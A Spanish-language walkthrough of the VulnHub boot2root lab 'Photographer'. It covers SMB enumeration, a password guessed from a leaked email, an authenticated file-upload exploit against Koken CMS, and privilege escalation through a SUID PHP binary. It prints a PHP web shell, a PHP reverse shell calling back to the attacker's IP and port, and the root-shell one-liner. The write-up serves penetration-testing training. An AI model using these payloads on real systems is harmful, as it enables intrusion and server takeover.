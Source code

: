 ## Photographer Pentesting
### Description
🧾 Descripción de la Máquina - Photographer (VulnHub)
Photographer es una máquina tipo boot2root de dificultad intermedia, diseñada para practicar habilidades de pentesting orientadas a la certificación OSCP. El objetivo es obtener dos flags (user.txt y proof.txt) a través de técnicas de enumeración, explotación web y escalada de privilegios.
La máquina simula un entorno realista con un sitio web vulnerable y ofrece una buena oportunidad para aplicar herramientas y metodologías comunes en entornos ofensivos.

### Información
- **Nombre de la máquina**: Photographer
- **Ip atacante**: 192.168.1.140 
- **Ip víctima**: 192.168.1.148

### NetDiscover 
```bash
sudo netdiscover -r 192.168.1.0/16
```
 - Lo cual nos devuelve la siguiente información:

```bash
Currently scanning: 192.168.31.0/16   |   Screen View: Unique Hosts                                                                                                                                                                       
                                                                                                                                                                                                                                           
 8 Captured ARP Req/Rep packets, from 7 hosts.   Total size: 480                                                                                                                                                                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.1     3c:a7:ae:93:00:54      1      60  zte corporation                                                                                                                                                                         
 192.168.1.135   b4:8c:9d:35:82:55      1      60  AzureWave Technology Inc.                                                                                                                                                               
 192.168.1.148   00:0c:29:26:65:49      1      60  VMware, Inc.                                                                                                                                                                            
 192.168.1.128   5c:51:81:4d:62:1d      1      60  Samsung Electronics Co.,Ltd                                                                                                                                                             
 192.168.1.147   ee:f3:f9:0b:5e:be      2     120  Unknown vendor                                                                                                                                                                          
 192.168.1.132   b2:53:2d:1c:73:10      1      60  Unknown vendor                                                                                                                                                                          
 192.168.1.134   62:19:cd:dc:68:d4      1      60  Unknown vendor  
```
### Nmap
```bash
┌──(kali㉿kali)-[~/Photographer]
└─$ sudo nmap 192.168.1.148 -sS -sV               

Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-08 15:42 EDT
Nmap scan report for 192.168.1.148 (192.168.1.148)
Host is up (0.00049s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8000/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 00:0C:29:26:65:49 (VMware)
Service Info: Host: PHOTOGRAPHER

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.58 seconds
```
### Vamos a empezar con samba, los puertos 139 y 445
```bash
┌──(kali㉿kali)-[~/Photographer]
└─$ smbclient -L //192.168.1.148 -U%            


        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        sambashare      Disk      Samba on Ubuntu
        IPC$            IPC       IPC Service (photographer server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            PHOTOGRAPHER
```
- Vemos que hay un archivo de samba que no es una de los predefinidos "sambashare", por lo que vamos a intentar acceder a el.

### Conexión al recurso compartido
```bash
┌──(kali㉿kali)-[~/Photographer]
└─$ smbclient "//192.168.1.148/sambashare" -U "guest"%

Try "help" to get a list of possible commands.
smb: \> get mailsent.txt
getting file \mailsent.txt of size 503 as mailsent.txt (122.8 KiloBytes/sec) (average 122.8 KiloBytes/sec)
smb: \> exit

┌──(kali㉿kali)-[~/Photographer]
└─$ cat mailsent.txt 
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```
- Vemos que dice algo de una página web, y que no olvidemos nuestro secreto. Vamos a ver si podemos encontrar algo en la página web.

![alt text](/ANEXOS/image.png)

- Esta es la página de inicio de la página. Eso en el puerto 80. Vamos a ver que hay en el puerto 8000.

![alt text](/ANEXOS/image_2.png)

- Vemos que esta es la página que decia que ya estaba lista de parte de Daisa. 
- Lo primero se me ha occurrido cuando he visto esto, es que podría haber más páginas, por lo que voy a hacer es utilizar wfuzz para ver si hay más páginas.
```bash
┌──(kali㉿kali)-[~/Photographer]
└─$ wfuzz --hc=404 -c -z file,/home/kali/Downloads/common.txt -u http://192.168.1.148/FUZZ
```
- Nos va a sacar una página de "admin", si nos metemos tenemos esto:

![alt text](/ANEXOS/image_3.png)

- En este caso ya tenemos el correo que nos ha dado antes el archivo que hemos sacado:
```"daisa@photographer.com"```
Estuve un rato grande probando diferentes combinaciones de usuarios y contraseñas, con hydra y con el diccionario rockyou.txt, pero no conseguí nada. Resulta que la contraseña estaba en forma de pista en el mismo archivo que sacamos de samba.
- La pista era "Don't forget your secret, my babygirl ;)" y la contraseña era "babygirl". (por la cara)

- Nos da acceso a la siguiente página: 
![alt text](/ANEXOS/image_4.png)

- Vemos que la página funciona con koken, un gestor de contenido para fotógrafos. Lo que vamos a hacer es buscar una vulnerabilidad en la versión de koken que tiene. Si lo buscamos con searchsploit, nos da la siguiente vulnerabilidad:
```bash
┌──(kali㉿kali)-[~/Photographer]
└─$ searchsploit -w koken
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
 Exploit Title                                                                                                                                                                                 |  URL
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)                                                                                                                                      | https://www.exploit-db.com/exploits/48706
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
```
- Vamos a descargarnos este archivo y a subirlo a la pagina web. 

![alt text](/ANEXOS/image_5.png)

#### Configurar archivo para el exploit
- **Paso 1:** Crear un archivo PHP malicioso
    Primero, necesitas crear un archivo PHP que ejecute comandos en el servidor a través de la URL.
    Abre un editor de texto y escribe el siguiente código PHP:
```php
<?php system($_GET['cmd']);?>
```
Este código permite ejecutar comandos en el servidor cuando se pasa como parámetro el valor cmd en la URL.
- **Paso 2:** Guarda el archivo como image.php.jpg. La extensión .jpg se utiliza para burlar las restricciones de tipos de archivo que podría permitir el sistema.
- **Paso 3:** En burpsuit, vamos a ver la solicitud http que nos ha dado al subir el archivo, vemos lo siguiente:

![alt text](/ANEXOS/image_6.png)

- **Paso 4:** Cambiamos el nombre del archivo a image.php y lo subimos.
Lo primero que vamos a hacer es utilizar BurpSuit para poder modificar la petición y poder subir el archivo con formato php. , ya que la página solo nos deja subir archivos jpg., por eso lo hemos llamado image.php.jpg. Una vez localizado el POST por el cual hemos mandado la petición del archivo vamos a hacer lo siguiente:

- ![alt text](/ANEXOS/image_7.png)
- ![alt text](/ANEXOS/image_8.png)

- Lo que vamos lograr al cambiar el nombre, es ejecutar el archivo PHP que hemos subido.
![alt text](/ANEXOS/image_9.png)

- Como podemos ver en esta imagen, hemos conseguido ejecutar el archivo PHP que hemos subido. Pero en este caso en la misma página web, con la url: http://192.168.1.148:8000/storage/originals/2f/0d/image.php?cmd=whoami, en este caso nos da que somos el usuario www-data.

- Pero esto no funciona como una reverseshell, por lo que vamos a intentar conseguir una reverse shell. Para ello, vamos a utilizar el siguiente código:
```php
<?php
// filepath: reverse_shell.php
$ip = '192.168.1.140'; // Cambia esto por tu IP
$port = 4444; // Puerto de escucha
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```
- Hacemos los mismos pasos que antes, pero en este caso lo guardamos como reverse_shell.php.jpg. Cuando nos metamos en la url de descarga del archivo, se ejecutará el código y nos dará una reverse shell.

![alt text](/ANEXOS/image_10.png)

- Limpiamos la shell y nos quedamos con una shell limpia. 
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
- El comando /usr/bin/php7.2 -r "pcntl_exec('/bin/sh', ['-p']);" ejecuta un shell como root aprovechando una vulnerabilidad en un binario con el bit SUID activado. A continuación, te explico qué hace cada parte del comando:
- Cuando lo ejecutamos, nos da una shell como root. 

![alt text](/ANEXOS/image_11.png)

- Ahora solo nos queda buscar el flag de root. 
```bash
┌──(kali㉿kali)-[~/Photographer]
└─$ find / -name "proof.txt" 2>/dev/null
/home/photographer/proof.txt
```
- Y ya tenemos el flag de root. 
![alt text](/ANEXOS/image_12.png)


